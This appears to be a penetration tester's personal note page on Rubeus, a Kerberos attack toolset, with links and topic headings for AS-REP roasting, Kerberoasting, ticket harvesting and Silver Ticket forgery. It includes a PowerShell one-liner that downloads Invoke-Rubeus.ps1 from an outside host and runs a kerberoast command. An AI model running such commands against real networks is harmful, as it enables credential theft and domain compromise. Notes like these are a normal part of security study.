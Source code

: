 public:: true

- ```
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
  
    v2.3.0
  ```
  Rubeus is a C# toolset for raw Kerberos interaction and abuses.
- Official [repository](https://github.com/GhostPack/Rubeus)
- Can be [executed from PowerShell](https://github.com/GhostPack/Rubeus#sidenote-running-rubeus-through-powershell).
	- Kali provides a `.ps1` launcher which embeds a pre-compiled Rubeus PE.
	  `/usr/share/powershell-empire/empire/server/data/module_source/credentials/Invoke-Rubeus.ps1`
	  Or it can be downloaded from [here](https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Rubeus.ps1).
	- Something like the following commands might do the trick
	  ```powershell
	  powershell -c "Invoke-WebRequest 'http://192.168.45.183:8000/Invoke-Rubeus.ps1' -OutFile 'Invoke-Rubeus.ps1'"
	  .\Invoke-Rubeus.ps1 -Command “kerberoast /stats”
	  ```
		- TODO try this^ out
		  background-color:: pink
- Retrieve [[ASREPRoast]] hashes
  id:: 655cede6-f368-47a0-ba38-5d1cb32ab48f
  {{embed ((655cf178-e37d-4ab0-9e2b-e16c2ff7c94f))}}
- Retrieve [[Kerberoasting]] hashes
  {{embed ((655e28cb-6916-4e6a-acbf-448824638693))}}
- Harvest tickets
	- {{embed ((656869e0-2bb7-4449-868f-abbb5dda4be4))}}
- Forge [[Silver Tickets]]
	- {{embed ((6568aad6-ac91-4776-b544-a06110eec895))}}